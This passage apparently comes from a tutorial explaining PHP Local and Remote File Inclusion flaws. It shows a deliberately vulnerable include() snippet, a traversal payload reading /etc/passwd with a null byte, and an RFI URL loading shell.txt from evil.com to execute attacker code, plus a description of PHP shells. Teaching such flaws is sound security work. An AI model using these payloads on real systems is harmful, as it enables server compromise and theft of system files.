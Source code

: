 ![img](images/Screenshot_10.png)

If the code is instead formatted as follows:

```php
<?php
include($_GET['location'] . "/template.tlp");
?>
```

Suitable exploits include:

```php
index.php?location=../../../etc/passwd%00
```

The string ends with the null character `%00`.

These flaws are typically discovered in small, custom-built CMSs where input is used to determine the routes of loaded pages before they are included.

The main difference between Remote File Inclusion (RFI) and Local File Inclusion (LFI) is that with RFI, the file to be included is fetched remotely.

In this instance, our goal is to execute our own code in addition to reading. An exploitable URL would resemble the following:

```php
vuln.php?page=http://evil.com/shell.txt
```

In this scenario, the page will include and run the shell.txt file, which contains PHP code.

A PHP shell that allows the hacker or pentester to run any code on the server is a frequent way to exploit this issue.

Even the most basic PHP shell will accept and execute commands from GET and POST parameters.

It's crucial to understand that the file included must not have the.php extension; otherwise, the attacker's computer will execute the included file's code instead of the target web application.
Let's examine this with an illustration.

The attacker's web application, which hosts the two files to include, is hosted on Windows, while the vulnerable application is hosted on a Linux machine (http://rfi.site).
